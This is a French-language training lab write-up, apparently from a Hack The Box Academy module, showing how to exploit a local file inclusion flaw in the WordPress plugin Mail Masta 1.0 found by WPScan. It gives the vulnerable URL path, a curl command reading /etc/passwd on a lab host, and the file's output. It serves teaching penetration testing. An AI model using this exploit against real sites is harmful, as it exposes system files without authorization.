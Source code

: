Exploiter un plugin vulnérable
==============================

* * * * *

Tirer parti des résultats de WPScan
-----------------------------------

Le rapport généré par WPScan nous indique que le site Web utilise une ancienne version de WordPress (5.3.2) et un thème obsolète appelé `Twenty Twenty`. WPScan a identifié deux plugins vulnérables, `Mail Masta 1.0`et `Google Review Slider`. Cette version du `Mail Masta`plugin est connue pour être vulnérable à l'injection SQL ainsi qu'à l'inclusion de fichiers locaux (LFI). Le résultat du rapport contient également des URL vers des PoC, qui fournissent des informations sur la manière d'exploiter ces vulnérabilités.

Vérifions si le LFI peut être exploité sur la base de ce [rapport](https://www.exploit-db.com/exploits/40290/) exploit-db . L'exploit indique que tout utilisateur non authentifié peut lire les fichiers locaux via le chemin : `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### LFI utilisant le navigateur

![](https://academy.hackthebox.com/storage/modules/17/WP_lfi.png)

* * * * *

Nous pouvons également valider cette vulnérabilité en utilisant cURL sur la ligne de commande.

#### LFI utilisant cURL

  LFI utilisant cURL

```
dsgsec@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false

```

Nous avons validé avec succès la vulnérabilité à l'aide des données générées dans le `WPScan`rapport. Maintenant, essayons nous-mêmes !
